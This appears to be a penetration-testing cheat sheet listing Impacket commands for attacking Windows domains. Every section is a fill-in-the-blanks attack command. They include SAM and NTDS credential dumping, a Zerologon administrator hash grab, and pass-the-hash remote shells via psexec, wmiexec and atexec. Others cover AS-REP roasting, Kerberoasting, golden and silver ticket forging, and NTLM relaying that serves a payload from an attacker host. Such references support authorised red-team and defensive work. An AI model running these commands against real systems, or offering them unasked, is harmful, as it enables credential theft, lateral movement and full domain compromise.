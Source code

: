 # Impacket

% impacket, windows, smb, 445

## smbclient - connect to smb on the target
```
smbclient.py <domain>/<user>:<password>@<ip>
```

## smbserver - share smb folder
```
impacket-smbserver <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
```
impacket-smbserver -username <username> -password <password> <shareName> <sharePath>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
```
lookupsid.py <domain>/<user>:<password>@<ip>
```

## reg - query registry info remotely
```
reg.py <domain>/<user>:<password>@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

## rpcdump - list rpc endpoint
```
rpcdump.py <domain>/<user>:<password>@<ip>
```

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
```
services.py <domain>/<user>:<password>@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```

## secretsdump
```
secretsdump.py '<domain>/<user>:<pass>'@<ip>
```

## secretsdump local dump hash
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes lmhash:nthash LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator (zerologon)
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

% impacket, windows, exec

## PSEXEC with username // create a new service (using \pipe\svcctl via SMB)
```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with Hash // create a new service (using \pipe\svcctl via SMB)
```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos // create a new service (using \pipe\svcctl via SMB)
```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with hash (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec hashes - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py -hashes <hash> <user>@<ip> "command"
```

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoast)
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impresionate user
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
```
GetADUSers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
```
impacket-ntlmrelayx -tf <targets_file> -e <payload_file>
```

## ntlmrelay - to use with mitm6 - relay to client
```
ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - relay to target
```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
